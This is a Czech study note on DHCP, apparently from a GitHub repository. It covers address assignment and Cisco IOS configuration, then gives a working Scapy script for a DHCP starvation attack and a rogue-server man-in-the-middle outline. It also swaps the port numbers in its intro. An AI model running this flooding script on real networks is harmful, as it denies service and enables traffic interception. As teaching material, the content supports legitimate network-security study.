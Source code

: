 # DHCP - Dynamic Host Configuration Protocol

### Topika: Úvod, nastavení v IOS, security

## Úvod

port 67 - HOST

port 68 - SERVER

*DHCP* je protokol nacházející se na Síťové vrstvě. Zajišťuje nám aby nové zařízení v síti mohli fungovat. Jelikož jim automaticky přiděluje potřebné věci. Jeho předchůdci jsou Reverse ARP a Bootstrap protokol. 

#### Statické DHCP
- DHCP tabulka si uchovává přiřazenou IP adresu k MAC tabulce, pomocí toho tak může mít zařízení pokaždé stejnou IP ikdyž se odpojí ze sítě. Využívá se pro servery. 

#### Přiřazení adresy
- probíhá 4 way handshakem.

> Host pošle DHCPDISCOVER na portu 68 na broadcast aby našel DHCP server
> 
> Server odpoví DHCPOFFER na portu 67 a nabídne adresu, hosta najde pomocí MAC adresy
> 
> Host pošle DHCPREQUEST na portu 68, žádá o nabídnutou IP adresu
> 
> Server odpoví DHCPACKNOWLEDGE na portu 67, server potvrzuje přiřazení adresy a zapisuje si ho do "poolu"

DHCP Přiřazuje hostům:
- IPv4 adresu
- NTP (pro analýzu)
- Gateway
- DNS server (například Cloudflare - 1.1.1.1 nebo Google - 8.8.8.8)

## Nastavení DHCP na Switchi nabo Routeru s IOS

#### Základní konfigurace DHCP
```
SW(config)#ip dhcp pool NETWORK1                          //vytvoří pool se jménem 
SW(dhcp-config)#network 192.168.190.0 255.255.255.0       //nastaví adresní rozsah
SW(dhcp-config)#default-router 192.168.190.1              //Gateway adresa
SW(dhcp-config)#dns-server 1.1.1.1 8.8.8.8                //adresy DNS serverů (můžeme nastavit až 8 adres)
SW(dhcp-config)#lease 30                                  //pronájem adresy na 30 dní, formátje den hodina minuta (tedy třeba 0 0 10 = 10 minut)
```

#### Konfigurace Statického DHCP
```
SW(dhcp-config)#host 192.168.190.9 255.255.255.0          // adresa pro klienta spolu s maskou
SW(dhcp-config)#client-identifier 0100.1217.59b0.73       // MAC adresa před kterou je typ media, 01 je pro Ethernet a tečka se posouvá
```

#### Užitečné příkazy
```
SWITCH#show ip dhcp bindings                              // seznam přidělených adres
SWITCH#clear ip dhcp bindings                             // vymaže seznam
SWITCH#show ip dhcp conflicts                             // seznam konfliktů
SW#clear ip dhcp conflicts                                // vymaže seznam konfliktů
SW#show ip dhcp pool                                      // informace o poolu
SW#show ip dhcp server statistics                         // statistiky serveru
```

## DHCP security
- Pro síť je špatně nastavené DHCP hrozba.

#### Startvation attack
- Útočník zahlcuje tabulku pro volne hosty pomocí scriptu. Poté můžu začít hostovat vlastní DHCP server, jelikož původní bude plný noví hostové budou dostávat adresu od útočníkovo DHCP serveru. Jelikož DHCP přiřazuje i gateway tak útočník zde může dát svoji IP adresu a jednoduše získat Man in the Middle útok.

Python script: 
- pozor jaký interface používáte
```
#!/usr/bin/python3
from scapy.all import *

conf.checkIPaddr = False  #Disable IP address checking

#Building DISCOVER packet
#Making an Ethernet packet
DHCP_DISCOVER = Ether(dst='ff:ff:ff:ff:ff:ff', src=RandMAC(), type=0x0800) \
            / IP(src='0.0.0.0', dst='255.255.255.255') \
            / UDP(dport=67,sport=68) \
            / BOOTP(op=1, chaddr=RandMAC()) \
            / DHCP(options=[('message-type','discover'), ('end')])

#Sending the crafted packet in a loop using the "eth0" interface
sendp(DHCP_DISCOVER, iface='eth0',loop=1,verbose=1 )-
```

Pro hostování DHCP serveru = https://udhcp.busybox.net/
